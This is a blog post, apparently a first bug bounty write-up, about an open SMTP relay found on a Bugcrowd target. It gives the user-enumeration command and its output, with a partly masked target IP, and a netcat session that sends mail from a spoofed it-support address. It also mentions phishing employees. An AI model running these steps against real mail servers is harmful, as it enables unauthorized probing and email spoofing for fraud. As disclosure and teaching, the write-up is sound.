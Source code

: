 +++
title = "Just a write-up"
date = "2019-04-05"
author = ".!"
cover = "smtp_server.png"
description = "SMTP miscofiguration vulnerability"
draft = false
+++

Hey There guys This is my first write-up I've created this blog site but I'm not so regular :P but from now I might be post the blogs more regularly not promising though.

So today I'll share one of my finding in one public program on bugcrowd platform It was not so cool bug to find or look for but still it triaged P3, So I thought let's share this with you guys.

So as first basic approach to any target i've already completed by Recon step I had around 108 list of sub-domains, after doing sub-domain enumeration I took screenshots of all the subdomains using EyeWitness and I was going through all the Snaps, I found something suspicious there was one page which didn't had any content but just one string something like

> ## ChbfdtyhjYfjkh

That's it so I decided to start with this target first, So I fired up my masscan gave the appropriate parameters and scanned that sub-domain but before that I had done nslookup for that sub-domain so It gave me the IP Address of the server which I then putted in masscan, As a results It has around 4 ports open one of them was 25 which is SMTP, So I thought to test the SMTP-server.

After doing little research about SMTP vulnerabilities I tried to enumerate the users on the server using "smtp-user-enum tool" which came built-in into kali systems, Following is the command I used:

```sh
smtp-user-enum -M VRFY -U /usr/share/wordlists/fern-wifi/common.txt  -t xx.xxx.57.15
```

I'm using fern-wifi's commans users list to check for existing users and -t "xx.xxx.57.15" is my target, In the results I was able to enumerate all the existing users on the server, result was as followed 

```cmd

Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Usernames file ........... /usr/share/wordlists/fern-wifi/common.txt
Target count ............. 1
Username count ........... 478
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Tue Mar  5 16:51:36 2019 #########
 exists57.15: acc
 exists57.15: abc123
 exists57.15: adfexc
 exists57.15: aaa
 exists57.15: access
 exists57.15: adm
 exists57.15: admin
 exists57.15: admin123
 exists57.15: admin_1
 exists57.15: admin2
 exists57.15: adminstrator
 exists57.15: administrator
 exists57.15: adminstat
 exists57.15: adminttd
 exists57.15: adminuser
 exists57.15: admn
 exists57.15: adminview
 exists57.15: adslolitec
 exists57.15: adslroot
 exists57.15: adtran
 exists57.15: ami
 exists57.15: anicust
 exists57.15: anonymous
 exists57.15: apc
 exists57.15: cac_admin
 exists57.15: browsepw
 exists57.15: cacadmin
 exists57.15: cascade
 exists57.15: calvin
 exists57.15: bluepw
 exists57.15: cablecom
 exists57.15: changeme
 exists57.15: changeme2
 exists57.15: ccrusr
 exists57.15: cgadmin
 exists57.15: cellit
 exists57.15: cisco
 exists57.15: citel
 exists57.15: client
 exists57.15: Root
 exists57.15: RSX
 exists57.15: ROOT500
 exists57.15: SECURITY
 exists57.15: SERVICE
 exists57.15: SESAME
 exists57.15: SKY_FOX
 exists57.15: SMDR
 exists57.15: SPOOLMAN
 exists57.15: SSA
 exists57.15: SUPER
 exists57.15: SUPERUSER
 exists57.15: SUPPORT
 exists57.15: SYS
 exists57.15: SYSADM
 exists57.15: SYSDBA
 exists57.15: SYSTEM
 exists57.15: Service
 exists57.15: Sharp

63.232.57.15: _Cisco exists
######## Scan completed at Tue Mar  5 16:53:12 2019 #########
477 results.

478 queries in 96 seconds (5.0 queries / sec)

```

I was be able to gather 478 active users on the server next step was trying to connect to the server and communicate with it so that i can carry out some operations 

so I ran Netcat command

```sh
nc -nvv target_ip
```

and boom.! I got connection back and was able to run any SMTP commands which I want This was the output:

```sh
nc -nvv target_ip
(UNKNOWN) [target_ip] 25 (smtp) open
220 something.cheetahmail.com ESMTP

HELO target.com
250 something.cheetahmail.com

MAIL FROM:it-support@target.com
250 ok

RCPT To:postmaster@cheetamail.com
250 ok

DATA
354 go ahead
test test test test test test test
.
250 ok 1551863013
```

There I was be able to send Email to anyone from their official email address, it is possible to send email from any address, so attacker could pick something trusted like administrator@ or it-support@ , etc. Then there is a higher chance unsuspecting employee would click malicious URL/executable in the email, So for post exploitations we required some Social engineering skills but yeah this is what I had found :P Told you not so cool like RCE or SQL injection hope I'll find it in near future but yet It's a bug so I reported.!




Here is the GIF for no reason:

<div style="width:100%;height:0;padding-bottom:104%;position:relative;"><iframe src="https://giphy.com/embed/de9SDw6PGRsubN1o3X" width="100%" height="100%" style="position:absolute" frameBorder="0" class="giphy-embed" allowFullScreen></iframe></div><p><a href="https://giphy.com/gifs/reaction-mood-de9SDw6PGRsubN1o3X">via GIPHY</a></p>

Ignore the mistakes if any! because this is my first write-up :P

*Note:- There's one Night-mode/Day-mode switch on this website use it:P.!


